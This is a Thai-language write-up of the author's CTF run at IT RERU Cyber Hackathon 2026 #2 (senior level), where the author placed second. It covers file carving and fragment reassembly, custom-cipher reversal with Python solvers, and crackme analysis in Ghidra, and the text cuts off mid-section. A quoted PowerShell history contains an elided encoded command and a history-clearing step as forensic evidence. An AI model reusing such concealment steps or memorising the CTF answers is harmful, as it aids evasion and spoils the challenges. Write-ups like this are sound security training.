การแข่งขัน IT RERU CYBER HACKATHON 2026 #2 (ที่เป็น CTF อะนะ ไม่ใช่ hackathon) ซึ่งแบ่งออกเป็น 3 level คือ Junior, Senior และ Open โดยรอบนี้เรามาในระดับ senior ซึ่งความ surprise ของงานนี้คือห้ามใช้ AI ฮะ



จบอันดับที่ 2 ครับ

# Challenges

## Deleted Trail



ข้อนี้ง่ายๆครับ แต่เพื่อนผมเอาไปตอบก่อน...

Flag `flag{md5(Polaris)}`

## Hidden Transit

สำเนา workstation และ removable media, ให้เราสืบหาและกู้ recovery text กลับมา





โดยเราจะเริ่มจาก browser โดยเราจะพบว่ามีการ download ไฟล์สองไฟล์มา



ต่อมาคือ bash history เราจะพบว่าไฟล์ดังกล่าวถูกนำมารวมกันโดยการ เอา file ต่อท้ายเข้าไปดื้อๆเลย `mission_briefing.png` + `telemetry_bundle.zip` -> `briefing.png`

ซึ่งในเคสนี้ค่อนข้างง่าย เพราะสามารถแยกมันได้ด้วย binwalk



ซึ่งใน zip ดังกล่าว readme ได้ระบุว่าต้องนำไฟล์ fragments เหล่านั้นที่เป็น ACTIVE มารวมกัน แล้วจะได้ gzip

```py
from csv import DictReader

reader = DictReader(open("./manifest.csv", "r"))
seq = [(int(i["sequence"]), i["fragment"]) for i in reader if i["status"] == "ACTIVE"]
seq.sort(key=lambda x: x[0])
open("./recovery.gz", "wb").write(b"".join([open(i[1], "rb").read() for i in seq]))
```



Flag `flag{md5(Eclipse)}`

## Phantom Transfer

เหมือนกันกับ **Hidden Transit** แต่เป็น windows เพิ่มเติมคือมี zip lock และไฟล์ที่หายไป



เริ่มจาก `ConsoleHost_history.txt`

```powershell
Get-Date
Get-ChildItem C:\Users\analyst\Downloads
powershell.exe -NoProfile -EncodedCommand ...
Clear-History
```



จาก powershell นี้เราจะเห็นว่า `$pw` ที่ถูกประกาศมาแต่ไม่ได้ใช้ โดยมันใช้ computer name + serial 6 ตัวท้าย โดยไฟล์ที่มี zip อยู่จะต่อท้ายไฟล์อยู่ใน `IMG_20260728_2110.jpg`





เมื่อเรานำทั้งสองมารวมกันจะได้

```text
ACU24-7C19A2
```

ต่อมาเรามาแยกไฟล์ zip ออกจาก image กัน โดยเราจะตัดเอาตรงท้ายไฟล์ด้วย EOI ของ jpg

```py
d = open("./IMG_20260728_2110.jpg", "rb").read()
open("./file.zip", "wb").write(d[d.find(b"\xff\xd9")+2:])
```



เราจะได้ไฟล์ออกมาหลายไฟล์ และรอบนี้ list ของไฟล์จะอยู่ใน `case_index.db` เป็น sqlite

เมื่อเรา filter ออกมาจะพบว่า seq 4 หายไป?

โดยก่อนหน้าเราได้ check file type จากทุกไฟล์ที่กระจายแล้วเดาได้ว่าน่าจะเป็น xz แต่การเอาไฟล์ xz ที่ corrupt มาถอดจะทำให้ข้อมูลขาดหาย

หลังจากใช้เวลาสักพักเราก็พบว่ามีไฟล์ลักษณะคล้ายกันอยู่ทั้งหมด 7 ไฟล์ใน `segments` โดยมีไฟล์ 1 (`s_e8f3.bin`) ไม่ได้มีชื่ออยู่ในสถานะ ACTIVE เราจึงคิดว่าต้องเป็นไฟล์นี้แน่ๆ

```py
l = """
segments/s_91c4.bin
segments/s_0a7e.bin
segments/s_b219.bin
segments/s_44d0.bin
segments/s_e8f3.bin
segments/s_2f6a.bin
segments/s_c731.bin
""".strip().split("\n")

open("file.xz", "wb").write(b"".join([open(i, "rb").read() for i in l]))
```



Flag `flag{md5(Umbra)}`

## Mars Relay Decode - Recursive Echo



สำหรับข้อนี้ถ้าจะเขียน program แก้จะเสียเวลามาก เพราะ data ที่จะ parse มันน้อย แต่ logic มัน parse ซับซ้อน ซึ่งเราสามารถทำมือได้เลย แต่ถ้าสังเกตดีๆจะพบว่ามี `R[temoC]` อยู่ เมื่อ reverse ออกมาแล้วจะได้ `Comet` ซึ่งนั่นแหละคือคำตอบ

Flag `flag{md5(Comet)}`

## Orbital Chain Recovery



สำหรับข้อนี้ต้องเขียน code ซะแล้ว แต่ยังไม่ยาก เพราะเมื่อเราตรวจสอบแล้วจะพบว่า START -> END มันมีเพียง path เดียวแล้วได้คำตอบเลย

โดยเราจะเอา data มา parse แล้วก็ filter เอาแค่ ACTIVE แล้วสร้างเป็น object เก็บไว้ใน dict ไว้แล้วใช้ recursive เดินไปในแต่ละ node จนกว่าจะเจอ END

```py
from typing import TypedDict

class Recode(TypedDict):
    NODE_ID: str
    NEXT_ID: str
    DATA_HEX: str
    CHECKSUM: str
    STATUS: str

raw = [i.strip().split("|") for i in open("./relay_nodes.txt", "r").read().split()]
raw = [i for i in raw if i[-1] == "ACTIVE"]
data: dict[str, Recode] = {j[0]: Recode(NODE_ID=j[0], NEXT_ID=j[1], DATA_HEX=j[2], CHECKSUM=j[3], STATUS=j[4]) for j in raw}

START_NODE="9d6c"
KEY_SEED=37

def enter(stack: list[Recode], mask: list[int], block: Recode | None):
    if block is None:
        print("".join([chr(i) for i in mask]))
    else:
        m = (int(block["NODE_ID"], 16) + (len(stack) * KEY_SEED)) % 256
        stack.append(block)
        mask.append(int(block["DATA_HEX"], 16) ^ m)
        enter(stack, mask, data[block["NEXT_ID"]] if block["NEXT_ID"] != "END" else None)
        stack.pop()
        mask.pop()

enter([], [], data[START_NODE])
```

ตอนแรกเราลองเขียน checksum แล้วแต่เรางงๆว่าทำไม checksum เราใช้ไม่ได้ จึงไม่ได้ใช้งาน เพราะหวังทำ path find เลยแต่พบว่ามีแค่ path เดียวเลยไม่ได้หายาก



Flag `flag{md5(Aurora)}`

## Reverse the Signal



เอาง่ายๆครับ ข้อนี้เราต้องเขียน decrypt

โดยผมก็เขียนอยู่นานเลย ค่อยๆ แกะ ค่อยๆ debug ไป หลักๆ เมื่อแกะได้แล้วเราจะได้ประมาณนี้ครับ

```py
data = bytes.fromhex(open("./ciphertext.txt", "r").read().strip())

import hashlib
import encoder

BLOCK_SIZE = 8
PERMUTATION = [3, 6, 1, 7, 0, 4, 2, 5]

def repermute_block(block: bytes) -> bytes:
    if len(block) != BLOCK_SIZE: raise ValueError("Invalid block size")
    buf = bytearray(BLOCK_SIZE)
    for i in range(BLOCK_SIZE): buf[PERMUTATION[i]] = block[i]
    return bytes(buf)

def decrypt_block(block: bytes, block_index: int, previous_cipher: bytes) -> bytes:
    key = encoder.derive_key(block_index, previous_cipher)
    decrypted = bytearray()

    for position, value in enumerate(block):
        shift = (block_index + position + key[position]) % 8
        v = encoder.rol8(value, -shift)
        mixed = v ^ key[position]
        decrypted.append(mixed)

    return repermute_block(bytes(decrypted))

def decrypt(data: bytes):
    stack = []
    for offset in range(len(data), 0, -BLOCK_SIZE):
        if offset == BLOCK_SIZE:
            previous_cipher = bytes(BLOCK_SIZE)
        else:
            previous_cipher = data[(offset-BLOCK_SIZE) - BLOCK_SIZE: (offset-BLOCK_SIZE)]

        block_index = offset // BLOCK_SIZE
        block_index -= 1
        block = data[offset-BLOCK_SIZE: offset]
        decrypted = decrypt_block(block, block_index, previous_cipher)
        stack.append(decrypted)

    stack: list[bytes] = stack[::-1]
    output = bytearray()
    for i in stack: output.extend(i)

    return output

print(decrypt(data).decode())
```

เริ่มจากเอาค่าคงที่เดิมมา แล้วลอก function แต่ละตัวมา impl กลับทาง เพื่อ decrypt, โดยสรุปคร่าวๆได้ว่า data ที่ encrypt นั้นจะถูก encrypt ทีละ 8 bytes ต่อ block โดยใช้ chain data จาก block ก่อนหน้า + block ถัดไป และในบาง function ที่สามารถย้อนกลับได้โดยตรงเราจะยืมจาก encoder.py มา

- แยก block, คำนวณ index (ทำจากจากหลังไปหน้า หรือจากหน้าไปหลังก็ได้ ส่วนผมจากหลังไปหน้า แต่ data ที่ใช้ถอดมันคือ encrypted block ซึ่งเรามีอยู่แล้ว)
- เรียกใช้ decrypt_block ทีละ block
  - decrypt block จะทำการสร้าง key จาก block_index, previous_cipher โดยเราไม่จำเป็นต้องเขียนใหม่
  - shift กลับ ต่อด้วย xor
  - ทำการย้อนตำแหน่ง bytes กลับที่เดิม
- ทำ data มาต่อกัน



Flag `flag{md5(Nebula)}`

## String Password



ง่ายๆครับ เปิดมา analyze เจอใน main function เลย, เป็นแค่ compare password string



Flag `flag{35522f06abceacffbbfde012a1ea6d27}`

## Rotating Secret

> not solved

golang... อืมมม ผมไม่เคยเจอแฮะ ผมเลยต้องทิ้งไปเพราะไม่อยากเสี่ยงเสียเวลา เอาล่ะเรามาแกะหลังงานกันดีกว่า



เป็น elf ที่ไม่ได้ strip มา ซึ่งทำให้ reverse ด้วย ghidra ได้ง่าย เราจะเริ่มจาก `main.main` และใช้ GoReSym สำหรับ dump string เพื่อมาเพิ่มใน code comment (ผมยังไม่มี idea ดีๆเลยทำแบบนี้ไปก่อน)



โดย input จะถูกตรวจสอบ 2 รอบ โดยใน code เรียกมันว่าประตู



gate แรกคือการ check input ว่าต้องมี 32 chars แล้วทำการ loop เพื่อหาผลรวมของ ascii ว่า mod 257 แล้วเท่ากับ 22 หรือไม่

เอาละเราก็จะสงสัยว่าทำไมมันแปลกๆ ใน line นี้

```c
if (iVar3 + ((SUB168(SEXT816(-0xff00ff00ff00ff) * SEXT816(iVar3),8) + iVar3 >> 8) - (iVar3 >> 0x3f)) * -0x101 == 0x16) goto LAB_0049676f;
// |
// V
if (iVar3 % 257 == 22) goto LAB_0049676f;
```

นอกเรื่องนิดหนึ่ง จริงๆมันใช้ `DIV` / `IDIV` ในการหาค่า แต่ๆ instruction นี้กิน cpu มาก เลยมีการใช้เทคนิคอื่นในการหาแทนที่เร็วกว่า อย่าง division by invariant integers ที่เปลี่ยนการ หาร/หาเศษ ด้วยค่าคงที่ให้กลายเป็นการ คูณ + bit shift

และใน gate ที่สอง



ทำการ check input ว่ายาว 32 chars ไหม seed ยาว != 0 ไหม แล้วทำการ loop

```c
// seed = 1337c0de42
